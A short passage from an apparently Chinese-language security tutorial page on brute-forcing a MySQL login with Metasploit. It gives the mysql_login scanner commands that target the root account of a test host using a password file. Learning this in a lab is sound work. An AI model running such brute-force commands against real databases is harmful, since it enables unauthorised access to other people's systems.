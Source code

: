 <p>在选择 MySQL 登录利用模块之后，我们设置了选项并执行了漏洞利用，这让我们能够爆破 MySQL 登录。Metasploit 使用提供的用户名和密码文件。并尝试爆破 MySQL 数据库。</p>
</blockquote>
<p>如果数据库允许外链，则能暴力破解密码</p>
<p>这个模块没有默认字典，新建一个简单的passs.txt</p>
<p><img src="picture/img (43).png" alt="Alt text"></p>
<p>如下配置参数：</p>
<pre><code>use auxiliary/scanner/mysql/mysql_login

set RHOSTS www.test.ichunqiu

set PASS_FILE /root/pass.txt

set USERNAME root
</code></pre><p>开启破解：</p>
<pre><code>exploit